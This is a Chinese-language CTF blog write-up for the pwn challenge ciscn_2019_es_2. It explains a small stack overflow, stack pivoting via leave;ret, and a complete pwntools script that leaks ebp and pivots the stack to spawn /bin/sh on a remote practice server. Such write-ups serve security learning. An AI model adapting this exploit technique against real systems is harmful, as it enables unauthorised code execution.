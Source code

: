```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      【ciscn_2019_es_2】WriteUp		# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2024-2-28				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-28.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - Pwn	
    - 栈迁移
---
```


# 【ciscn_2019_es_2】WriteUp

`checksec`一下，发现只有NX防护。

```shell
[*] '/home/bronya/Documents/CTF/pwn11/ciscn_2019_es_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

使用ida打开，发现s存在溢出漏洞，但是只能溢出8字节，无法调用write等函数进行RetLibc。因此考虑栈迁移。

```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

栈迁移指在rbp指向的地址写入要篡改的地址，rbp+4写入leave_ret地址，这样在函数正常结束即将返回时，rsp指向rbp，rbp指向rbp指向的内容地址，rsp+4到leave_ret，使eip指向了leave_ret，因此导致程序又执行了leave_ret，再次将rsp移动到rbp，rsp+4，使eip指向了篡改地址+4的地址。

![栈迁移-1](/img/posts/2024-2-28-pwn11.assets/栈迁移-1.png)

![栈迁移-2](/img/posts/2024-2-28-pwn11.assets/栈迁移-2.png)

因此只需要向程序变量s写入要执行的指令，再栈迁移使eip指向s即可。

构造exp如下：

```python
from pwn import *

context(arch='i386', os='linux', log_level="debug")

# p = process('./ciscn_2019_es_2')
# gdb.attach(p, 'b *0x080485BE')

p = remote('node4.buuoj.cn', 27006)

leave_ret = 0x08048562
system_addr = 0x08048400

# 第一次溢出泄漏ebp地址，用于栈迁移
payload = flat(b'a'*0x20+b'b'*8)
p.sendafter(b'Welcome, my friend. What\'s your name?\n',payload)
p.recvuntil(b'bbbbbbbb')
ebp_addr = u32(p.recv(4))
info(hex(ebp_addr))

# 第二次溢出，进行栈迁移，通过修改ebp来达到修改eip的目的 
payload2 = flat(b'aaaa', system_addr, 0, ebp_addr-0x28, b'/bin/sh').ljust(0x28, b'\x00')
payload2 += flat(ebp_addr-0x38, leave_ret)
p.sendlineafter(b'\n', payload2)


p.interactive()
```

